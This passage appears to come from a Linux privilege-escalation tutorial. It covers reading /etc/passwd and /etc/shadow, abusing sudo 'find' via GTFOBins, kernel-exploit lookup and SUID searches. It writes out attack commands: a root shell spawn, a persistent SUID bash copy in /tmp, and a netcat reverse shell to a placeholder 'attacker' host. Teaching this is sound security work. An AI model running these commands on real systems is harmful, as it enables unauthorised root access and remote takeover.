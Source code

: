    ```bash
   # Sensitive files
   cat /etc/passwd
   cat /etc/shadow 2>/dev/null
   
   # Running processes
   ps aux
   ```

   **Skills Developed**:
   - Linux permissions understanding
   - SUID/SGID concepts
   - Process enumeration
   - Configuration file analysis

2. **GTFOBins - Exploiting Trusted Binaries**

   **What is GTFOBins?**
   A curated list of Unix binaries that can be used to bypass security restrictions.

   **Find Command Exploitation**:
   ```bash
   # Method 1: Spawn shell
   sudo find . -exec /bin/bash \; -quit
   
   # Method 2: Read files
   sudo find /root -name "*.txt" -exec cat {} \;
   
   # Method 3: Write files
   sudo find . -exec cp /bin/bash /tmp/rootbash \;
   sudo find . -exec chmod +s /tmp/rootbash \;
   
   # Method 4: Reverse shell
   sudo find . -exec nc attacker 4444 -e /bin/bash \;
   ```

   **Skills Developed**:
   - Binary exploitation
   - Command-line manipulation
   - Creative thinking
   - Using legitimate tools for unintended purposes

3. **Other Common Privilege Escalation Vectors**

   **Kernel Exploits**:
   ```bash
   uname -a  # Check kernel version
   searchsploit "linux kernel 4.15"  # Find exploits
   ```

   **SUID Binaries**:
   ```bash
   # Find SUID binaries
   find / -perm -4000 2>/dev/null
   
   # Example: /usr/bin/passwd is SUID
   ```
